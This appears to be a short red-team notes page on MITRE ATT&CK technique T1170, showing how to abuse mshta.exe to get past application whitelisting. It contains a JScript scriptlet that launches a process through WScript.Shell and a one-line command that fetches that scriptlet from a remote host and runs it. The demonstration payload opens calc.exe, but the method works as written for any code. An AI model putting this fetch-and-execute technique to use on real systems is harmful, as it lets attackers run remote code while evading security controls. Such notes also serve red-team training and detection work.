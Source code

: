 ```yaml
---
description: Application whitelist bypass technique
---
```


# T1170: MSHTA Code Execution

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1170\",\"type\":\"link\",\"title\":\"Mshta - ATT&CK for Enterprise\"}" %}

## Code

{% code-tabs %}
{% code-tabs-item title="http://10.0.0.5/m.sct" %}
```markup
<?XML version="1.0"?>
<scriptlet>
<registration description="Desc" progid="Progid" version="0" classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"></registration>

<public>
    <method name="Exec"></method>
</public>

<script language="JScript">
<![CDATA[
	function Exec()	{
		var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
	}
]]>
</script>
</scriptlet>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Execution

```bash
# from powershell
/cmd /c mshta.exe javascript:a=(GetObject("script:http://10.0.0.5/m.sct")).Exec();close();
```

## Observations

![](../.gitbook/assets/mshta-calc.png)

